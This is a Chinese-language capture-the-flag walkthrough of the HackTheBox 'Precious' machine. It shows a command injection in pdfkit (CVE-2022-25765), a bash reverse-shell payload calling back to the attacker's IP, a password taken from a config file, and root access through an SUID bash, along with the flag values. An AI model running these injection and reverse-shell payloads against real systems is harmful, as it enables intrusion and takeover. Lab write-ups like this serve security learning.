


### 一、信息收集
```shell
    nmap -A 10.10.11.189
    # 经探测，存在22、80端口
    # 进行虚拟主机和目录探测都没有有用信息
    # 因此使用IP进行访问
```
> IP会自动跳转到http://precious.htb/，所以需要在/etc/hosts文件设置映射

web页面如下


### 二、确定漏洞
1. 启动本地web服务
> python3 -m http.server 80   

2. 利用本地服务的url作为payload
> 生成PDF文件并下载，6uzp9y651e9fyzuydn2q5384lo10uj1o.pdf

3. 查找文件信息
```shell
# 命令
exiftool 6uzp9y651e9fyzuydn2q5384lo10uj1o.pdf

# 结果
ExifTool Version Number         : 12.49
File Name                       : 6uzp9y651e9fyzuydn2q5384lo10uj1o.pdf
Directory                       : .
File Size                       : 24 kB
File Modification Date/Time     : 2022:12:10 11:05:16+08:00
File Access Date/Time           : 2022:12:10 11:05:31+08:00
File Inode Change Date/Time     : 2022:12:10 11:05:31+08:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
``` 
> 出现敏感信息pdfkit v0.8.6

4. 经过网络搜索，发现存在相关漏洞编号：CVE-2022-25765,按照其提供的方案进行攻击
- 使用PAYLOAD:http://10.10.16.7/?name=%20`curl 10.10.16.7`

> 本地有接收到访问请求，因此该漏洞可以利用

-  反弹shell
```shell
# 启动监听
nc -lvnp  4444

# 反弹到本地
http://10.10.16.7/?name=%20`bash -c 'exec bash -i &>/dev/tcp/10.10.16.7/4444 <&1'`
### 至此，已经获取webshell
```

5.  查找敏感文件
- 利用命令`cat /etc/passwd`发现存在用户henry
- 并在`/home/ruby/.bundle`目录发现配置文件存在henry用户的密码
-  使用 `ssh` 进行访问，成功登录并在家目录发现flag
>  user.txt 4c7b12d577742d2431305d10ab43d529

6. 提权
```shell
# 查找具有SUID的可执行文件
find . -perm /4000

# 可以利用的文件
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/umount
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/bash
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/bin/fusermount

# 进行提权
/usr/bin/bash -p
```
> 从`/root`目录获取flag:root.txt 4173d42c48656e94571eca2e8c506972


